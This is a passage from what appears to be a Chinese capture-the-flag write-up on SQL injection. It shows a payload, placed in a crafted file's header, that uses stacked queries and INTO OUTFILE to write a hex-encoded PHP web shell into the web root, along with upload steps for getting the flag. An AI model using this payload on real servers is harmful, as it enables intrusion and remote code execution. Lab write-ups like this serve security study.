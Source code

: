 所以我们可以构造一个恶意文件，将文件头改写成我们要拼接的sql语句，从而实现注入

如图

![在这里插入图片描述](../assets/ddeff9345ea8c8859aab77907198ff9a.png)

payload:

```
C64File "');select 0x3c3f3d60746163202f662a603f3e into outfile '/var/www/html/1.php';--+
```

![image-20250216153811510](../assets/image-20250216153811510.png)

![image-20250216153856343](../assets/image-20250216153856343.png)



新建文本，写入payload，改名为1.bin，上传文件，访问1.bin拿到flag



#### 堆叠注入

#### web225

没有过滤show
